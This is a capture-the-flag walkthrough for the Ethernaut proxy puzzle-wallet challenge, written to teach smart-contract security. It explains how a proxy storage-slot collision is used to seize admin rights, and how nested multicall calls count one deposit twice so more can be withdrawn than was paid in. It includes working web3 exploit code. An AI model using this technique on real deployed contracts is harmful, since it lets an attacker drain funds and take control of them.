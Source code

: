 ## This challenge can be solved entirely on the ethernaut page
### General overview (goal: hijack proxy contract to become admin)
1. Note the storage slot collisions between proxy and puzzle contracts
2. Become admin for puzzle contract by calling proposeNewAdmin through puzzle contract which would alter slot 0 of contract storage
3. Once we are the admin, we can then whitelist ourself to call other functions 
4. Since admin address for the proxy contract is in slot 1 of storage, the aim would be to alter maxBalance (also slot 1 of storage) in puzzle contract to our address. But in order to do that, we'd have to call setMaxBalance which require the contract balance to be 0.
5. To get the puzzle contract balance to zero, we would need to be able to withdraw more than we put into the contract.
6. We can do that via the multicall function. But in this function, there is a check to make sure that we can only call deposit once per multicall. To bypass this check, we can then nest the deposit call into a multicall (i.e. using multicall to call 2 multicalls, each with a deposit call within). By doing this, we are able to send in the money only once, but update our balance with the contract more than once, which would then allow us to withdraw more than we put in.

### Code:
```
// becoming puzzle contract admin
functionSignature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
}
params = [player]
data = web3.eth.abi.encodeFunctionCall(functionSignature, params)
await web3.eth.sendTransaction({from: player, to: instance, data})

// whitelist ourselves
await contract.addToWhitelist(player)

// using multicall to send in funds once but get balance to be updated more than once (send in 0.001 but have balance be 0.002)
depositData = await contract.methods["deposit()"].request().then(v => v.data)
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
await contract.execute(player, toWei('0.002'), 0x0)

// set our address as admin using setMaxBalance
await contract.setMaxBalance(player)
```